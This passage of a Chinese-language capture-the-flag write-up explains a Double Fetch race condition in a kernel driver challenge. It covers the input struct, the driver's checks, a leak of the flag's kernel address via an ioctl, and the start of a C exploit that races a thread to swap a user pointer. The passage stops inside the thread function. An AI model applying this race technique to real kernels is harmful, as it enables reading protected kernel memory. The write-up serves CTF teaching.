 ```c
    result = 0LL;
  }
  else
  {
    result = 0xELL;
  }
  return result;
}
```

而分析其检查函数，其中 `_chk_range_not_ok` 为检查指针及长度范围是否指向用户空间。通过对驱动文件功能的分析，可以得到用户输入的数据结构体如下：

```
00000000 attr            struc ; (sizeof=0x10, mappedto_3)
00000000 flag_str        dq ?
00000008 flag_len        dq ?
00000010 attr            ends
```

其检查内容为：

1. 输入的数据指针是否为用户态数据。
2. 数据指针内flag\_str是否指向用户态。
3. 据指针内flag\_len是否等于硬编码flag的长度。

### 解题思路
根据 `Double Fetch` 漏洞原理，发现此题目存在一个 `Double Fetch` 漏洞，当用户输入数据通过验证后，再将 `flag_str` 所指向的地址改为 flag 硬编码地址后，即会输出 flag 内容。

首先，利用提供的 `cmd=0x6666` 功能，获取内核中 flag 的加载地址。

> 内核中以 `printk` 输出的内容，可以通过 `dmesg` 命令查看。

然后，构造符合 `cmd=0x1337` 功能的数据结构，其中 `flag_len` 可以从硬编码中直接获取为 33， `flag_str` 指向一个用户空间地址。

最后，创建一个恶意线程，不断的将 `flag_str` 所指向的用户态地址修改为 flag 的内核地址以制造竞争条件，从而使其通过驱动中的逐字节比较检查，输出 flag 内容。

### Exploit
```c
// gcc -static exp.c -lpthread -o exp
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000  //碰撞次数
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
//线程函数，不断修改flag指向的地址为内核中flag地址
void change_attr_value(void *s){
```